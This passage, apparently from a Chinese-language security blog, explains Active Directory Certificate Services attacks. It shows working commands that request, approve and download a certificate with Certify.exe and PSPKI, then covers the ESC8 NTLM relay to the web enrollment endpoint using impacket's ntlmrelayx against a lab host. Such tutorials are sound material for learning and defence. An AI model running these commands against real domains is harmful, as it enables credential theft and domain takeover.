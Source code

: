   如果当前用户拥有该权限，只需要记住请求的ID，即可

  ```
  Certify.exe request /ca:ECHANGE2013.loser.com\loser-DC-CA /template:ApprovalNeeded
  
  Import-Module PSPKI
  Get-CertificationAuthority -ComputerName ECHANGE2013.loser.com | Get-PendingRequest -RequestID 20 | Approve-CertificateRequest
  
  Certify.exe download /ca:ECHANGE2013.loser.com\loser-DC-CA /id:20
  ```

  ![image-20240108222020525](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240108222020525.png)

  ![image-20240108222239700](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240108222239700.png)

### ESC8(NTLM Relay to AD CS HTTP Endpoints)

在安装AD CS服务时，如果勾选了web注册服务，就能利用这点进行NTLM Relay

+ 默认情况下web注册界面仅支持http,明确表明是通过ntlm进行验证。证书注册服务（CES）、证书注册策略（CEP）Web 服务和网络设备注册服务（NDES）默认支持通过其授权 HTTP 标头协商身份验证，协商身份验证支持 Kerberos 和 NTLM。同时这些服务支持https,但https在不与通道绑定结合时是不能防止ntlm relay的

> 关于为什么要relay到web界面？
>
> 通常ntlm relay只能进行一次身份验证。这导致会话的时间过短。此外，身份验证会话受到限制，攻击者无法与强制执行 NTLM 签名的服务交互。
>
> 如果是relay到web界面。攻击者可以访问web界面并为受害者申请证书，从而持续获取ntlm hash或者用于kerberos认证。这将获得一个较长时间的会话。

impacket里面的套件已经有了实现

```
python3 ntlmrelayx.py -t http://192.168.30.88/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# --adcs 启用 AD CS Relay 攻击
# --template指定 AD CS 证书模板
```

